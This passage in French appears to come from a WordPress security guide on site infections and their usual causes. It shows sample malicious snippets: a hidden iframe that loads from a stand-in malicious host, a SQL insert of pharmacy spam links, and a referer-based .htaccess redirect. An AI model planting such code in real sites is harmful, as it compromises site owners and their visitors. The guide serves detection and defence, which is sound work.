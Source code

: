 **Localisation fréquente** :
- `/wp-content/themes/theme-actif/functions.php`
- `/wp-content/uploads/` (fichiers .php cachés)
- `/wp-includes/` (fichiers système modifiés)
- Racine du site (fichiers avec noms aléatoires)

#### 2. Injections de code malveillant
Les injections représentent **23% des cas** et se manifestent par :

```javascript
// Injection JavaScript malveillante typique
<script>
document.write('<iframe src="http://malicious-site.com/malware.php" width="1" height="1" frameborder="0"></iframe>');
</script>
```

#### 3. Pharma Hack
Affecte principalement les sites e-commerce, injectant des liens vers des pharmacies illégales :

```sql
-- Injection SQL typique du Pharma Hack
INSERT INTO wp_posts (post_content) VALUES 
('<a href="http://illegal-pharmacy.com">Cheap Viagra</a>');
```

#### 4. Redirections malveillantes
Détournent le trafic vers des sites frauduleux, souvent via des modifications `.htaccess` :

```apache
# Redirection malveillante cachée
RewriteCond %{HTTP_REFERER} google\.com [NC]
RewriteRule ^(.*)$ http://malicious-redirect.com/ [R=301,L]
```

### Vecteurs d'infection WordPress

#### Vulnérabilités plugins/thèmes (78% des cas)
```bash
# Audit des plugins vulnérables
wp plugin list --field=name | xargs -I {} wp plugin get {} --field=version
```

#### Mots de passe faibles (15% des cas)
Les attaques par force brute exploitent :
- Mots de passe dictionnaire
- Combinaisons prévisibles
- Absence de limitation des tentatives

#### Fichiers WordPress obsolètes (7% des cas)
```bash
# Vérification version WordPress
wp core version --extra
```
